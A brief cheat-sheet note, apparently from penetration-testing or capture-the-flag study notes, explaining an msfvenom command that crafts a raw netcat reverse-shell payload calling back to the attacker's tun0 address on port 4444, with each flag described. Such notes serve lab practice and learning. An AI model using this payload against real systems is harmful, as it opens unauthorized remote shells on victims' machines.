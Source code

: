 # msfvenom

- Craft a payload

# Command

```
msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R
```
- `-p` Payload
- `lhost` Local IP
- `lport` Local Port
- `R` Export the payload in raw format
